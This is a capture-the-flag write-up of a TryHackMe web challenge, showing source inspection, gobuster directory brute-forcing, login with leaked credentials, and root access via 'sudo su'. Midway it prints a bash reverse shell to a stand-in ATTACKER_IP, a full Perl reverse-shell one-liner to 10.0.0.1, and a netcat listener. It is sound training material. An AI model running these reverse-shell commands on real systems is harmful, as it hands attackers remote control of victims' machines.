
<br>
This challenge is a web application challenge, which involves using tools in a web page, `netcat`, `gobuster`, reverse shell and more! <br> <br>
The first thing I did was to redirect to the page given to us in the challenge page. Simple type in `MACHINE_IP` (in my case `10.10.233.119`) in the URL bar. <br><br>

<br>
One simple tool to use when doing a capture the flag challenge involving a website, is to inspect its source page. This can be done by simply right clicking the page and clicking on `View Page Source`. <br><br>
<br>
Above is the page source of the web page we were just on. Looking through the source, we see that there is an interesting comment at the bottom that says `Username: R1ckRul3s`, this may be the username we are looking for. <br><br>
We turn our attention to our terminal, and here we use a tool called `gobuster`, which is a tool to brute force URL directories for a website. Below is the command for this task.<br><br>
 <br><br>
As we can see from the above image, there are a couple stand out directories such as `robot.txt` and `login.php`.<br><br>
Typing `robot.txt` in the URL bar gave the following.<br><br>
 <br><br>
This may be the password that goes with the username we found in the previous steps. We now take a look at `login.php`. In the same way, we input `login.php` in the URL bar and we are met with a login page.<br><br>
 <br><br>
Inputting the username and the password we found previously, we have been redirected to the command panel on the website as shown below. <br><br>
 <br><br>
Here, we can use this like a standard command line interface. I started off by using the command `ls` to list what is in the current working directory. <br><br>
 <br><br>
Some of them are familiar, but there is one text file that looks interesting. I initially tried using the `cat` command which outputs the contents of the file. However, I was only met with the following page. <br><br>
 <br><br>
Thus, I decided to use a technique called reverse shell. Simply put, a reverse shell is a type of remote access that allows the attacker to control a target machine by initiating a connection. It is called reverse shell
because, instead of the attacker connecting to the target machine, the target machine is connecting to the attacker, which bypasses tools like a firewall.<br><br>
A standard command for this would be `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`. Additionally, the port (in this case `443`) can be anything as long as it's open on the attacker's machine.<br><br>
 <br><br>
Now that we have executed this code, we turn our attention back to the terminal and use a tool called `netcat`. This tool waits for an incoming connection on a specified port and its format is as follows: `nc -lnvp [port]`<br><br>
<br><br>
We then use a `payload` to execute and obtain what we are looking for. Here is a [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) that shows a bunch of web socket payloads to use.<br>
For this, I used the Perl payload which is <br>
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```
Inputting this in the command panel on the website gives us the following on the terminal.<br><br>
 <br><br>
I then used `cat` to output the contents of the file I initially tried earlier on the command panel, and we now have our first flag. In addition to this, outputting the contents of `clue.txt` gave us a short clue,
stating that we should look through other directories. <br><br>
 <br><br>
I then decided to look at the `/home` directory, and found another interesting directory. <br><br>
 <br><br>
Taking a look at this directory, I found the second flag for the challenge. <br><br>
 <br><br>
Now to find the third and final flag. I looked through a bunch of directories without finding anything that stood out, however, what I noticed was that I couldn't access the root directory. <br>
I decided to use the command `sudo su` which should give me root access, and after using the command `id`, I realized that it worked as intended. <br>
From here, I simply listed the directories within `/root` and outputted the contents of `3rd.txt`. Below shows the final flag that I had acquired. <br><br>
 <br><br>

This was a super interesting and fun capture the flag that revolves around working my way through a web service and utilizing the reverse shell. <br><br>

From TryHackMe


